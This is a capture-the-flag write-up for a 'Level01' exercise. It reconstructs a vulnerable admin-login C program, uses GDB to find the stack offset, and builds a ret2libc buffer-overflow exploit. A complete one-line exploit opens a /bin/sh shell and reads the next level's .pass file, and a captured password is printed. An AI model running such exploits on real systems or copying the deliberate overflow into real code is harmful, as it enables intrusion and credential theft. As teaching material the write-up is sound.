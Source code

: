 # Level01

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -m32 -z execstack source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

// line differences on main+11 and main+15 (extra use of eax)
int main()
{
    char buf[64]; // 0x1c(%esp)
    int ret; // 0x5c(%esp)

    memset(buf, 0, 64);
    ret = 0;

    puts("********* ADMIN LOGIN PROMPT *********");

    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    ret = verify_user_name();
    if (ret != 0)
    {
        puts("nope, incorrect username...");
        return 1;
    }

    puts("Enter Password: ");
    fgets(buf, 100, stdin);
    ret = verify_user_pass(buf);
    if (ret == 0 || ret != 0)
    {
        puts("nope, incorrect password...");
        return 1;
    }

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe as it has a mechanism to limit the number of bytes read. However we're reading 100 bytes in `buf` which only has 64 bytes allocated on the stack. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+226 # Breaking before leave and pop instructions
Breakpoint 1 at 0x80485b2

(gdb) r # Run the program
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...


Breakpoint 1, 0x080485b2 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd6a0       0xffffd6a0
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xffffd708 - 0xffffd6a0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x1c(%esp),%eax`. Since there is 104 bytes for the stack, our buffer will therefore require 76 bytes (104 - 28) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll only cover the `ret2libc` method.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2libc

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Here's the complete exploit:
```python
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
```
> We also have to provide the username `dat_wil` to pass the first check from the `verify_user_name` function.

Let's run it:
```bash
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

We are now level02! Let's move on to the next level.